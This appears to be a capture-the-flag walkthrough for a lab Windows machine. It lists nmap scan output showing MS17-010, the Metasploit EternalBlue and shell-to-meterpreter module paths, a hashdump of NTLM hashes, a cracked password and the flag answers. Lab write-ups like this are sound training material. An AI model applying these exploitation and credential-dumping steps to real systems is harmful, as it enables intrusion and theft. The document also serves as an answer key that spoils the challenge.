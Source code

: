 export IP=10.10.230.248


NMAP port scan under 1000
```
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE      REASON
135/tcp open  msrpc        syn-ack
139/tcp open  netbios-ssn  syn-ack
445/tcp open  microsoft-ds syn-ack
```

Q1	How many ports are open with a port number under 1000?
```
3

```

NMAP vulnerability scan
```
PORT    STATE SERVICE      REASON
445/tcp open  microsoft-ds syn-ack

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED

```

Q2	What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
```
ms17-010

```

Q3	Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
```
exploit/windows/smb/ms17_010_eternalblue

```

Q4	Show options and set the one required value. What is the name of this value? (All caps for submission)
```
RHOSTS

```


Q5	If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 
```
post/multi/manage/shell_to_meterpreter

```

Q6	Select this (use MODULE_PATH). Show options, what option are we required to change?
```
session

```

hashdump
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

```

Q7	Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 
```
Jon

```

Q8	Copy this password hash to a file and research how to crack it. What is the cracked password?
```
alqfna22

```

Flag1? This flag can be found at the system root. 
```
flag{access_the_machine}

```

Flag2? This flag can be found at the location where passwords are stored within Windows.
```
flag{sam_database_elevated_access}

```

flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. 
```
flag{admin_documents_can_be_valuable}

```


















